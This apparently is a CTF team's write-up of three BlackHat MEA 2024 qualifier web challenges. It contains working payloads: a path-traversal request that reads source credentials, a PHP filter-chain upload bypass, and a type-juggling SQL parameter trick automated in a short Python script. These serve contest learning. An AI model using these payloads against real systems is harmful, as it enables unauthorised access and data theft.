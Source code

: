```yaml
---
title: BlackHat MEA 2024 Qualifiers Write-Up
published: 2024-08-17
description: 'Our team qualified for BlackHat MEA 2024! This post includes web challenge write-ups from the qualifiers and insights into our journey to the top 100.'
image: './cover.jpg'
tags: [BlackHat, CTF, WebSecurity]
category: 'CTF'
draft: false
---
```

# BlackHat MEA 2024 Qualifiers – Web Challenge Write-Ups

We’re thrilled to share that our team made it into the **Top 100** for the **BlackHat MEA 2024 Qualifiers**! Here are detailed walkthroughs for three web challenges we solved: **Watermelon**, **Free Flag**, and **Notey**. Each one tested different aspects of web exploitation, from file traversal to unconventional SQL logic.

---

## Watermelon Write-Up

- **Category:** Web  
- **Points:** 120  
- **Difficulty:** Easy  

### Challenge Description

> All love for Watermelons 🍉🍉🍉  
> *Note: The code is not jailed — take care while crafting exploits.*

🔗 [Challenge Files](https://github.com/hanzalaghayasabbasi/BlackHat-MEA-2024-Qualifiers-Write-Ups/tree/main/Watermelon-src)

---

###  Walkthrough

#### 1. Registration & Login

We registered a user via `/register` and grabbed the session cookie after login.

![Register](https://github.com/user-attachments/assets/6b80c459-419c-41dc-8287-c62f437c7a09)  
![Login Cookie](https://github.com/user-attachments/assets/a6802a2d-b197-482a-b340-8e8b508fb2cd)



#### 2. File Traversal → Admin Password

We discovered that `app/app.py` contained admin credentials and identified a file traversal vulnerability in the `/upload` path.

![Traversal Found](https://github.com/user-attachments/assets/bde3eb53-e89b-4c97-b309-376d940057fd)

Using `curl`, we accessed `/file/1/../../../app/app.py` and extracted the password:

![Admin Password](https://github.com/user-attachments/assets/23a06e81-05ee-45b8-ad8f-8b3978fc7528)



#### 3. Admin Login & Cookie Hijack

We logged in with the credentials and copied the session:

![Admin Session](https://github.com/user-attachments/assets/b354a35e-c8ad-4a1a-8d49-dacc891046b0)



#### 4. Flag Retrieval

A simple GET to `/admin` with the admin cookie gave us the flag:

![Flag](https://github.com/user-attachments/assets/4acf6005-ce59-4df5-b710-f2e95fa551d9)

---

## Free Flag Write-Up

- **Category:** Web  
- **Points:** 110  
- **Difficulty:** Easy  

### Challenge Description

> Free Free

🔗 [Challenge Files](https://github.com/hanzalaghayasabbasi/BlackHat-MEA-2024-Qualifiers-Write-Ups/tree/main/FreeFlag-src)

---

### Exploit Strategy

The application checked for specific content in uploaded files. We used the [`wrapwarp`](https://github.com/AabyssZG/wrapwarp) tool to generate a filtered payload:

```bash
python3 wrapwarp.py /flag.txt "<?php" "?>" 100
```

This created a long filter chain, bypassing content restrictions:

```
php://filter/convert.base64-encode|convert.iconv.855.UTF7|...
```


### 🏁 Retrieving the Flag

Posting the payload allowed us to bypass file inspection and retrieve the flag from inside a PHP wrapper.

![Flag Output](https://github.com/user-attachments/assets/68a070bf-cf4d-46e7-825c-ed04690981e8)

---

## Notey Write-Up

- **Category:** Web  
- **Points:** 180  
- **Difficulty:** Medium  

### Challenge Description

> I created a note-sharing site. Don’t try to access other people’s notes — grass isn’t greener :'(

🔗 [Challenge Files](https://github.com/hanzalaghayasabbasi/BlackHat-MEA-2024-Qualifiers-Write-Ups/tree/main/Notey-src)



### Vulnerability: Type Juggling → Logic Flaw

The app lets users view notes using an ID and secret. But the `viewNote` endpoint didn’t validate input types, allowing arrays to be passed.

Sending:

```
/viewNote?note_id=66&note_secret[username]=admin
```

Resulted in this SQL query:

```sql
SELECT note_id, username, note FROM notes 
WHERE note_id = '66' AND secret = `username` = 'admin'
```

Which simplifies to:

```sql
... WHERE note_id = '66' AND 1
```

The condition evaluates true because the `username='admin'` exists.



### Alternative Bypass

If `username` isn't available, we could still bypass with:

```
/viewNote?note_id=66&note_secret[note]=test
```



### Exploit Script

The session expired quickly (under 3 seconds), so we automated the entire flow:

```python
import requests

base_url = 'http://a7c623f98ed8647acdccc.playat.flagyard.com'
username = "hanzala"
password = "11223344"

sess = requests.Session()
sess.post(f"{base_url}/register", data={"username": username, "password": password})
sess.post(f"{base_url}/login", data={"username": username, "password": password})

target_url = f"{base_url}/viewNote?note_id=66&note_secret[username]=admin"
exp = sess.get(target_url)
print(f"Flag: {exp.json()[0]['note']}")
```

---

##  Final Thoughts

These challenges blended practical web attack techniques with creative logic flaws. It was a rewarding experience to solve them under pressure — and making it into the Top 100 feels even better. Huge shoutout to the organizers and good luck to everyone in the next stage! 💪🏽


Happy Hacking, 
